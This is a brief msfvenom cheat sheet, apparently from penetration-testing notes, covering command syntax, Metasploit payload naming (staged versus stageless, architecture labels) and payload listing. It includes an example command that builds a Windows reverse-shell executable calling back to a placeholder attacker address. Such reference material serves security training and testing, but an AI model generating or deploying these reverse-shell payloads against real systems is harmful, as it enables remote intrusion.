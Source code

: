     **STANDARD SYNTAX**  
  
msfvenom -p <payload> <options>  
  
_Ex:_ msfvenom -p windows/x64/shell/reverse\_tcp -f exe -o shell.exe LHOST=<ip> LPORT=<port>
	
	
---
	
    **PAYLOAD NAMING CONVENTIONS**  
  
<OS> / <arch> / <payload>  
  
_ex: linux/x86/shell\_reverse\_tcp_  
  
  
Windows 32 arch is not specified  
_/windows/shell\_reverse\_tcp_  
  
64 bit windows is specified as x64  
_windows/x64/shell\_reverse\_tcp_  
  
  
\* Stageless payloads are denoted with \_  
\*\*Staged payloads are denoted with /  
  
  
**PAYLOAD SEARCH**  
msfvenom --list payloads